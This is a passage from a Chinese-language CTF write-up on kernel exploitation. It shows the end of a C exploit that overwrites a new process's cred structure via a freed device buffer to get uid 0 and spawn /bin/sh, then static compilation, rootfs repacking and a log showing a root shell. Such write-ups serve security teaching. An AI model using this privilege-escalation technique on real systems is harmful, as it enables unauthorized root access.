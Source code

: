 ```CPP
        // 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
        char zeros[30] = {0};
        write(fd2, zeros, 28);

        if(getuid() == 0)
        {
            puts("[+] root now.");
            system("/bin/sh");
            exit(0);
        }
    }

    else
    {
        wait(NULL);
    }
    close(fd2);

    return 0;
}
```

我们对exp进行编译，因为这个题目的kernel里面没有libc，所以这里我们静态编译exp:
```bash
➜  Desktop gcc exp.c -static -o exploit
➜  Desktop file exploit 
exploit: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=b4df5ea181b300281f32a5e9a974ccd2f24f2ee3, not stripped
```
因为我们是本地调试，所以可以将exp直接放入到rootfs目录中并重新打包：
```bash
➜  Desktop cp exploit ./rootfs/home/ctf/        
➜  Desktop cd rootfs 
➜  rootfs find . | cpio -o --format=newc > ../rootfs.cpio
7216 blocks
```
接下来直接运行并执行exp就可以拿到root权限：
```bash
/ $ cd /home/ctf
~ $ ls
exploit
~ $ ./exploit 
[   22.269245] device open
[   22.270112] device open
[   22.271025] alloc done
[   22.271863] device release
[+] root now.
/home/ctf # id
uid=0(root) gid=0(root) groups=1000(ctf)
```

## 如何调试

